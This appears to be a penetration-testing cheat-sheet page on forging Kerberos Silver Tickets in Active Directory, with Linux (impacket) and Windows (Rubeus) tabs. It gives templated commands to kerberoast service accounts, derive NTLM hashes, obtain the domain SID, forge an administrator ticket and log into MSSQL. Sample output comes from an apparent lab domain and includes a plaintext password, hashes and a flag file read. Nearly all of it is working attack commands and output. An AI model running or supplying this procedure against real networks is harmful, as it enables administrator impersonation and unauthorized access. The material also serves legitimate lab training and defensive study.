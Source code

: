 ```yaml
---
title: "Silver Ticket"
date: 2024-7-30
tags: ["Pass-The-Ticket", "SID", "Rubeus", "Ticket Granting Ticket", "Silver Ticket", "Sidhistory", "Domain Controller", "Active Directory", "Windows", "GetUserSPNs"]
---
```


### Silver Ticket Attack

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get service principle name (SPN) \[optional\]

```console
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -request -k
```

```console
# If NTLM auth is disabled
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-host <DC> -request -k
```

#### 2. Generate NTLM

```console
iconv -f ASCII -t UTF-16LE <(printf '<PASSWORD>') | openssl dgst -md4
```

```console {class="sample-code"}
$ iconv -f ASCII -t UTF-16LE <(printf 'REGGIE1234ronnie') | openssl dgst -md4 
MD4(stdin)= 1443ec19da4dac4ffc953bca1b57b4cf
```

#### 3. Get domain SID

```console
sudo ntpdate -s <DC> && impacket-getPac -targetUser administrator '<DOMAIN>/<USER>:<PASSWORD>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.sequel.htb && impacket-getPac -targetUser administrator 'sequel.htb/sql_svc:REGGIE1234ronnie'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

KERB_VALIDATION_INFO 
LogonTime:                      
    dwLowDateTime:                   4131845666 
    dwHighDateTime:                  31133135 

---[SNIP]---
 
Domain SID: S-1-5-21-4078382237-1492182817-2568127209

 0000   10 00 00 00 43 04 A9 EA  FD 5C DC 66 5C CE D0 B2   ....C....\.f\...
```

#### 4. Generate Silver Ticket

```console
impacket-ticketer -nthash <HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <DC> -spn anything/<DC> administrator
```

```console {class="sample-code"}
$ impacket-ticketer -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn anything/dc.sequel.htb administrator
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sequel.htb/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in administrator.ccache
```

#### 5. Import ticket

```console
export KRB5CCNAME=administrator.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=administrator.ccache
```

#### 6. Check

```console
klist
```

```console {class="sample-code"}
$ klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@SEQUEL.HTB

Valid starting     Expires            Service principal
09/25/24 07:55:27  09/23/34 07:55:27  anything/dc.sequel.htb@SEQUEL.HTB
        renew until 09/23/34 07:55:27
```

#### 7. Access service

```console
# For example: mssql
impacket-mssqlclient -k <DC>
```

```console {class="sample-code"}
$ impacket-mssqlclient -k dc.sequel.htb                                                
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sequel\Administrator  dbo@master)> SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) AS Contents
BulkColumn                                
---------------------------------------   
b'2186a912c7f240246fd2c2b04651f9b4\r\n'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Get service principle name (SPN) \[optional\]

```console
.\rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC> /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>' /nowrap
```

#### 2. Generate NTLM

```console
.\rubeus.exe hash /password:'<PASSWORD>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> .\rubeus.exe hash /password:'REGGIE1234ronnie'

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : REGGIE1234ronnie
[*]       rc4_hmac             : 1443EC19DA4DAC4FFC953BCA1B57B4CF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

#### 3. Get domain SID

#### 3a. Locally

```console
import-module activedirectory
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> import-module activedirectory
```

```console
Get-ADDomain | fl DomainSID
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> Get-ADDomain | fl DomainSID

DomainSID : S-1-5-21-4078382237-1492182817-2568127209
```

#### 3b. Remotely

```console
# Install ldp.exe (Windows 11)
Settings > System > Optional Features > More Windows Features and add 'Active Directory Lightweight Directory Services'
```

```console
# Bind > Bind with credentials
ldp.exe
```

```console
# Browse > Search
BaseDN: DC=<EXAMPLE>,DC=<COM>
Filter: (objectclass=User)
```

#### 4. Generate silver ticket

```console
.\rubeus.exe silver /domain:<DOMAIN> /dc:<DC> /sid:<SID> /rc4:<HASH> /user:administrator /service:anything/<DC> /nowrap /ptt
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> .\rubeus.exe silver /domain:sequel.htb /dc:dc.sequel.htb /sid:S-1-5-21-4078382237-1492182817-2568127209 /rc4:1443EC19DA4DAC4FFC953BCA1B57B4CF /user:administrator /service:anything/dc.sequel.htb /nowrap /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : SEQUEL.HTB (SEQUEL)
[*] SID            : S-1-5-21-4078382237-1492182817-2568127209
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : 1443EC19DA4DAC4FFC953BCA1B57B4CF
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 1443EC19DA4DAC4FFC953BCA1B57B4CF
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : anything
[*] Target         : dc.sequel.htb

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'administrator' to 'anything/dc.sequel.htb'

[*] AuthTime       : 9/24/2024 5:06:04 PM
[*] StartTime      : 9/24/2024 5:06:04 PM
[*] EndTime        : 9/25/2024 3:06:04 AM
[*] RenewTill      : 10/1/2024 5:06:04 PM

[*] base64(ticket.kirbi):

      doIFUTCCBU ---[SNIP]--- F1ZWwuaHRi


[+] Ticket successfully imported!
```

#### 5. Check

```console
klist
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> klist

Current LogonId is 0:0x1293866

Cached Tickets: (1)

#0>     Client: administrator @ SEQUEL.HTB
        Server: anything/dc.sequel.htb @ SEQUEL.HTB
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/24/2024 17:06:04 (local)
        End Time:   9/25/2024 3:06:04 (local)
        Renew Time: 10/1/2024 17:06:04 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

{{< /tabcontent >}}

